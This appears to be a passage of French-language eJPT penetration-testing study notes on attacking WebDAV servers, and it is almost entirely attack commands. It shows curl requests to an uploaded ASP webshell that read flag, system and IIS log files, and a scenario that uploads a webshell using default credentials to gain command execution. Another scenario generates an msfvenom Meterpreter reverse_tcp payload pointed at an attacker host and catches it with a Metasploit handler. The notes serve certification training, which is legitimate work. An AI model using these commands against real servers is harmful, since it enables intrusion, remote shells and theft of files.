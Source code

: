 ### Lecture de fichiers sensibles
```bash
# Lecture flag (exemple eJPT)
curl "http://demo.ine.local/webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt"

# Fichiers système Windows
curl "http://demo.ine.local/webdav/webshell.asp?cmd=type+C%3A%5CWindows%5CSystem32%5Cdrivers%5Cetc%5Chosts"
curl "http://demo.ine.local/webdav/webshell.asp?cmd=type+C%3A%5Cboot.ini"

# Logs IIS
curl "http://demo.ine.local/webdav/webshell.asp?cmd=dir+C%3A%5Cinetpub%5Clogs"
```

### Download de fichiers
```bash
# Via cadaver
cadaver http://demo.ine.local/webdav
get sensitive_file.txt
get config.xml

# Via curl (si webshell permet lecture)
curl "http://demo.ine.local/webdav/webshell.asp?cmd=type+sensitive_file.txt" > downloaded_file.txt
```

---

## 🎯 13. Cas d'usage spécifiques eJPT

### Scénario 1: WebDAV avec auth faible
```bash
# 1. Découverte WebDAV
nmap --script http-enum -p 80 target

# 2. Test credentials par défaut
davtest -auth bob:password_123321 -url http://target/webdav

# 3. Upload webshell
cadaver http://target/webdav
put /usr/share/webshells/asp/webshell.asp

# 4. RCE
curl "http://target/webdav/webshell.asp?cmd=whoami"
```

### Scénario 2: WebDAV → Meterpreter
```bash
# 1. Générer payload ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker LPORT=4444 -f asp > met.asp

# 2. Upload payload
cadaver http://target/webdav
put met.asp

# 3. Handler Metasploit
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST attacker; set LPORT 4444; exploit

# 4. Trigger payload
curl http://target/webdav/met.asp
```
